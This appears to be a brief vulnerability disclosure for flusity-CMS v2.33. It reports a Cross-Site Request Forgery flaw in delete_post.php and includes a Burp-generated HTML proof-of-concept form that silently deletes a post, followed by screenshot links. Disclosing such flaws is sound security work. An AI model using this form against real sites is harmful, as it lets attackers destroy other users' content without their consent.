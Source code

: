 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/delete_post.php

![1](https://github.com/tang-0717/cms/assets/96685332/6a25d456-486e-439f-be67-aa8eb2588ab0)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/delete_post.php" method="POST">
      <input type="hidden" name="action" value="delete&#95;post" />
      <input type="hidden" name="post&#95;id" value="17" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![1](https://github.com/tang-0717/cms/assets/96685332/35fcd6e8-a876-4299-839e-42998c93b390)


Successed

![3](https://github.com/tang-0717/cms/assets/96685332/5a975e8d-f251-49ab-8213-85bbf6245e05)
